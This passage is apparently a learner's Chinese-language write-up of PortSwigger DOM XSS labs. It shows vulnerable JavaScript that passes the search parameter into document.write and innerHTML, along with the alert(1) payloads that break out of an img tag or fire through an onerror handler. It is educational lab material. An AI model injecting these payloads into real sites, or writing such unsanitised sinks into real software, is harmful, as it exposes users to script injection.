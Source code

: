 
```js
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}      
```

payload


```html
"/><script>alert(1)</script>
```

注入後會變成


```html
<img src="/resources/images/tracker.gif?searchTerms='"/><script>alert(1)</script>'">
```

## Lab: DOM XSS in `innerHTML` sink using source `location.search`

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#exploiting-dom-xss-with-different-sources-and-sinks |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink                                  |

先觀察網站的 js 有以下程式碼


```js
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

插入 `<script>alert(1)</script>` 失敗，不知道是不是瀏覽器的安全機制阻擋

查了一下 [MDN innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)

```
While the property does prevent `<script>` elements from executing when they are injected
```

調整為 `<img src='x' onerror='alert(1)'>` 成功

還不錯，有學到新東西，原來用 `innerHTML` 插入 `<script>` 不會執行程式碼
